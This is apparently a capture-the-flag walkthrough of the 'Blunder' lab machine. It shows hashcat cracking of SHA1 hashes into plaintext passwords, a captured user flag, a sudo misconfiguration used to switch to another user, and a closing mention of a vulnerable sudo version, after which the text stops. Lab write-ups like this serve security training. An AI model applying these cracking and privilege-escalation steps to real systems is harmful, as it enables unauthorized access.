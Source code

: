 ## Wordlist Attack Using Hashcat
Used rockyou + best64 rule to crack the SHA1 hashes.

```
Hugo
faca404fd5c0a31cf1897b823c695c85cffeb98d:Password120

Administrator
bfcc887f62e36ea019e3295aafb8a3885966e265:5dde2887e7aca:casablancas1
```

Used `Password120` to login as hugo.

## Privilege Escalation #1
```
hugo@blunder:/var/www/html$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
```

## The User Flag
```
hugo@blunder:~$ ls -l user.txt
-r-------- 1 hugo hugo 33 Mar 31 23:28 user.txt
```

```
60bf4cbc1135901bb2a884c80c962bc4
```

## Privilege Escalation #2
`hugo` user can execute `/bin/bash` as another user (but those who are not in root group).
```
hugo@blunder:/dev/shm$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

```
hugo@blunder:/dev/shm$ sudo -H -u shaun /bin/bash
```

```
shaun@blunder:/dev/shm$ id
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```

## Privilege Escalation #3 via Vulnerable sudo version
Sudo version `1.8.25p1`.
